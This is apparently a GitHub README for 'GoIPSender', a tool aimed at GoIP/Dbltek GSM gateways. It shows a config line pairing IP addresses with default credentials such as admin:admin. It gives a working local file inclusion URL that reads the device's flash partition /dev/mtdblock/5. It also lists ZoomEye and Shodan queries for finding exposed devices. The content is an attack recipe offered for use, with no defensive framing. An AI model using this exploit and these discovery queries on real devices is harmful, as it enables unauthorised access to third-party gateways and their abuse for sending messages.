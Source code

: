 # GoIPSender

# Config
``host|user:pass,line``
exemple: ``177.30.254.36:81|admin:admin,8``
## LFI GoIP Dbltek
``http://ip:port/default/en_US/frame.html?content=/dev/mtdblock/5``
### Export results
``zoomeye: /default/en_US/status.html``
<br/>
``shodan: HTTP/1.0 401 Please Authenticate WWW-Authenticate: Basic realm="Please Login"``
<br/><br/>
![image](https://user-images.githubusercontent.com/74382279/198907983-7b0c6075-fdca-41ef-aba9-fe393d0b7b3e.png)
